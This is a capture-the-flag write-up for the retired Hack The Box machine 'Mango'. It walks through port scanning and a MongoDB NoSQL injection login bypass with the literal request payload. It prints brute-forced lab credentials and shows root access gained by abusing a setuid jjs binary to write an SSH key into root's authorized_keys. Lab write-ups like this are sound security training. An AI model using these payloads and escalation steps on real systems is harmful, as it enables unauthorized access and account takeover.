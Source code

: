 # Mango

This is the write-up for the box Mango that got retired at the 18th April 2020.
My IP address was 10.10.14.27 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.162    mango.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/mango.nmap 10.10.10.162
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The hostname _staging-order.mango.htb_ should be put into the _/etc/hosts_ file.

## Checking HTTP & HTTPS (Port 80 & 443)

The web page on port 80 responds with the HTTP status code _403 Forbidden_.

The web page on port 443 shows a page that looks like the **Google search engine**:

![Mango homepage](mango_web-1.png)

The button _Analytics_ on the top right forwards to _/analytics.php_ which looks similar to Google Sheets.
On the hostname _staging-order.mango.htb_ on **HTTP** is a login form to an unknown application:

![Mango login form on hostname](mango_web-2.png)

After testing different kinds of SQL Injection methods on all input fields, the box name _mango_ and the mango background on the login page seems to be a hint, that it could be a **NoSQL MongoDB** database in the backend.

Testing **NoSQL Injection** on the login form:
```
POST / HTTP/1.1
Host: staging-order.mango.htb
(...)

username[$ne]=test&password[$ne]=test1234&login=login
```

The data compares if the username and the password does not equal to the values and after sending the request, it forwards to the page _/home.php_.
This page says _"Under Plantation"_ and does not have any information, but it confirms that a **MongoDB** has to be exploited.

### SQL Injection on MongoDB

Databases on **MongoDB** allow **Regular Expressions** and to get information out of the database, we can enumerate information with scripts.
I created one script to brute-force usernames and another one for brute-forcing their passwords and they can be found in this repository.

Brute-Forcing usernames:
```
python3 mango_sqli-user.py
```

There is one user called _admin_ and the other user can be found by iterating the first letter through the alphabet until it will be at the letter _"m"_ and then it will find the user _mango_.

Brute-Forcing passwords:
```
python3 mango_sqli-pass.py
```

Credentials of _admin_:
> admin:t9KcS3>!0B#2

Credentials of _mango_:
> mango:h3mXK8RhU~f{]f5H

Both credentials work on the web page and forward to _home.php_, but the user _mango_ can also access the box with SSH.

## Privilege Escalation

It is possible to switch user to _admin_ with the found password:
```
su - admin
```

When searching for files with the **Setuid bit** set, there is one that does not have this permission by default:
```
find / -type f -perm -4000 2>/dev/null
```
```
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

On [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/) it shows that the binary `jjs` can be abused for different privilege escalation methods.
With the _"File write"_, it is possible to write our own SSH key into the _authorized keys_ of root and login:

Creating SSH keys:
```
ssh-keygen
```

Creating bash script on the box to abuse `jss` and write content of our created public key into _/root/.ssh/authorized_keys_:
```
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("ssh-rsa AAAAB3NzaC1yc2EAAAAD(...)");
fw.close();' | jjs
```

Executing bash script:
```
chmod +x jss_write.sh

./jss_write.sh
```

If the file was modified correctly will be found out by trying to login into the box as root:
```
ssh -i mango_id_rsa root@10.10.10.162
```

It works and logs us into the box as root!

